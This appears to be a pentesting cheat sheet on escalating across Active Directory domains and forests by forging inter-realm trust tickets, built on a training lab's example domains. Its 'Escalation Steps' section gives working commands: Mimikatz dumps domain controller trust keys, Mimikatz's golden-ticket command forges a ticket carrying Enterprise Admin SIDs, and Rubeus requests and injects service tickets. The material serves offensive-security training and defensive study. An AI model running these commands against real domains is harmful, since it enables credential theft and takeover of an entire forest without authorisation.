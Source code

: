 # Domain Trusts - Forging Trust Tickets

🔎 View in Notion [Link](https://r3dbuck3t.notion.site/Domain-Trusts-Forging-Trust-Tickets-cad847c5afb8447cac284ae5c97ed38e)

📖 Related Article on R3d-Bucket: [Breaking Domain Trusts with Forged Trust Tickets](https://medium.com/r3d-buck3t/breaking-domain-trusts-with-forged-trust-tickets-5f03fb71cd72)

# Escalation Requirement 🚩

- Domain Admin privileges on the compromised domain machine.
- Domain Controller **Trust Key** to forge the **Inter-realm TGT tickets.**

# Escalation Vectors 🎯

- **Across Domains:** an attacker with DA privileges can hop to another domains within the forest.
- **Across Forests:** accessing another forests that have transitive 2 way trust relationship with the compromised forest.

# Tools

- **Invoke-Mimikatz**
- **Rubeus**

# Escalation Steps

1. **Dump trust keys  with Mimikatz [DA privs are required]**
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName DC-Name**
    > 
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName dcorp-dc**
    > 

1. **Create Inter-realm Ticket with Mimikatz**
    
    > **Invoke-Mimikatz -Command '"Kerberos::golden /user: Administrator  /domain: dollarcorp.moneycorp.local [child_domain]
    /sid: DomainAdmin_SID   /sids: Enterprise_Admin_SID   /rc4: Ticket HASH  /service:krbtgt   /target:moneycorp.local [root domain]
    /ticket: location to save the ticket"'**
    > 

1. **Request service tickets with Rubeus** 
    
    > **Rubeus.exe asktgs   /ticket: ticket Location  /service: service type [cifs/mcorpdc.moneycorp.local]  /dc: domain controller [mcorp-dc.moneycorp.local]  /ptt**
    
   
    
    # References
    
    [Enumerating Domain Trusts in Active Directory](https://medium.com/r3d-buck3t/enumerating-domain-trusts-in-active-directory-series-c85205fc862f)
    
    [](https://www.pentesteracademy.com/activedirectorylab)
    
    [From Domain Admin to Enterprise Admin](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)
    
    [Specifying Security and Administrative Boundaries](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755979(v=ws.10)?redirectedfrom=MSDN)
